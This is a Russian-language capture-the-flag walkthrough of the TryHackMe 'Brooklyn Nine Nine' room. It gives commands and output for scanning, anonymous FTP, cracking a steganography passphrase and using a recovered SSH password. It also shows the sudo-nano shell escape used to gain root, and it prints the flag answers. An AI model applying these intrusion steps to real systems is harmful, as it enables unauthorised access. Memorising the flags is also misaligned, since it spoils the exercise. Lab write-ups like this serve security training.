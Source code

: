 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Brooklyn Nine Nine](https://tryhackme.com/r/room/brooklynninenine) 

Всего 1 заданиe:
## Задание 1
Эта комната предназначена для хакеров начального уровня, но любой может попытаться взломать этот ящик. Существует 
два основных предполагаемых способа получить права root на ящике. Если вы найдете больше, напишите мне в Discord на 
Fsociety2006.  

### Ответьте на вопросы ниже

```commandline
nmap -Pn -sC -sV -A -p- 10.10.96.83 -oN nmap_result
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.55.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


```commandline
ftp 10.10.96.83         
Connected to 10.10.96.83.
220 (vsFTPd 3.0.3)
Name (10.10.96.83:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> get note_to_jake.txt
```

```commandline
cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

```commandline
steghide extract -sf brooklyn99.jpg                            
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

```commandline
$ stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt

Successfully cracked file with password: admin
Tried 20651 passwords
Your file has been written to: brooklyn99.jpg.out
admin

$ steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
```

```commandline
cat note.txt

Holts Password:
fluffydog12@ninenine

Enjoy!!
```

```commandline
ssh holt@10.10.96.83
holt@10.10.96.83's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt
```
Пользовательский флаг
```commandline
ee11cbb19052e40b07aac0ca060c23ee
```

```commandline
$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
    
$ sudo /bin/nano

Ctrl + R + X 
reset; sh 1>&0 2>&0


ls -l /root/root.txt
-rw-r--r-- 1 root root 135 May 18  2020 /root/root.txt
# cat /root/root.txt
```

Корневой флаг
```commandline
63a9f0ea7bb98050796b649e85481845
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)